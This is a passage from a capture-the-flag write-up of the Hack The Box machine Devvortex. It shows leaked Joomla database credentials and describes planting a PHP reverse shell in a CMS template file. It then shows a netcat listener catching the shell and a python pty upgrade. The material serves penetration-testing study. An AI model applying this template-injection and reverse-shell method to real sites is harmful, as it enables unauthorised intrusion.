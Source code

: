 ```bash
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

> Also taking note of the reference to a `mysql` DB.

At this point, I kept getting the following error, alongside repeated invalidation of my session cookie and being kicked out of the CMS:

![Untitled](/img/devvortex_img/Untitled%201.png)

As this issue was persistent through VM instance resets, I thought this was part of the box (it wasn’t) so I wound up losing a lot of time.
Ultimately, I had to swap HTB server regions before I could continue as intended.

Faulty machines aside, we can write malicious PHP to one of the template files - this is similar to other CMS backends like `Wordpress`, which will allows us to execute arbitrary code very
easily; in this case, we can use the classic PentestMonkey PHP reverse shell script, replacing the network info with our local IP and favorite port. We can then write it to the template file,
start up a netcat listener, and finally, make a GET request for `http://dev.devvortex.htb/templates/cassiopeia/error.php` to execute the script, initiating the remote machine to call back
to our local `netcat` listener.

![Untitled](/img/devvortex_img/Untitled%202.png)

To improve our shell interaction, we can execute a series of commands to upgrade from a basic shell session to a fully interactive tty terminal - this is more a matter of convenience than necessity, but it allows
us to, for example, hit `<C-c>` to send `SIGINT` to a process on the remote machine, rather than `SIGINT`ing our local netcat process. There's a handful of other benefits to this but signal hotkeys are the first thing
I could think of and there's already enough grammar mistakes to fix so I'm picking my battles and moving on.

Regardless, in this instance, we can use a few easy terminal tricks to achieve our `tty`:

- the machine has an available `python3` binary, allowing us to spawn a `pty` with python's built-in `pty` module (this is achieved via the command `python3 -c 'import pty; pty.spawn("/bin/bash")`),
- we further upgrade the python-invoked `pty` to a fully interactive `tty` by copying over some of our terminal environment, essentially allowing us to send our raw, untransformed input directly to the remote session.

The following output is a little bit messy, but the general idea outlined above is (hopefully) visible:

```bash
\[pls@ruby\]:\[~\] \$ nc -lnvp 9999                                                                                                                             130 ↵
Listening on 0.0.0.0 9999

Connection received on 10.129.45.143 39578
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 13:46:45 up 53 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can\'t access tty; job control turned off

$ whoami
www-data
\$ echo $TERM
\$ which python
\$ which python3
/usr/bin/python3
\$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```